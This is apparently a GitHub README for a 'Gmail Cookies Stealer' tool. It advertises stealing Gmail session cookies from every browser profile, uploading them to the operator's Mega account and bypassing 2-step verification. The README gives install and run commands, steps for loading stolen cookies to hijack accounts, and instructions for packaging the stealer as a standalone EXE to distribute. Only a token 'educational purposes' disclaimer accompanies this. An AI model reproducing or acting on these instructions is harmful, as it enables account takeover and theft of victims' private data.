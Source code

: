 # Gmail Cookies Stealer

Steal All Profile Gmail Cookies On Browser And Upload To Your Mega Account. Also Bypass 2-Step Verifications

## Disclamer ⚠️

This tool is for educational purposes only; Any actions and or activities related to this tool are solely your responsibility. The used of this tool can result in criminal charges brought against the persons in question. I'll not be held responsible in the event any criminal charges be brought against any individuals misusing this tool to break the law. ❗


## Module Used

```python
chromedriver_autoinstaller==0.4.0
mega.py==1.0.8
selenium==4.4.3
undetected_chromedriver==3.1.5.post4
```
## Usage

This tool will work if user doesn't logout their Gmail Account in their browser.

### Install All Module

```python
  pip install -r requirements.txt
```
### Run Tool

```python
  #Steal cookies
  python cookies_stealer.py
  
  #Load cookies
  python load_cookies.py
```

### Load Cookies
Download Cookies file from your mega account and put into the same directory with load_cookies.py. Change line 11 with the same name of cookies file.
<img src="https://github.com/katakkentut/GmailCookieStealer/blob/master/screenshot/example-2.png">

### Convert To EXE

```python
  # Using Pyinstaller
  Pyinstaller --noconfirm --onefile cookies_stealer.py

  # recommend Using Nuitka
  py -m nuitka --mingw64 .\cookies_stealer.py --standalone --onefile 
 ```
 
### Change Account

Change line 47 and 48 to your own mega account

<img src="https://github.com/katakkentut/GmailCookieStealer/blob/master/screenshot/example-1.png">


 
 
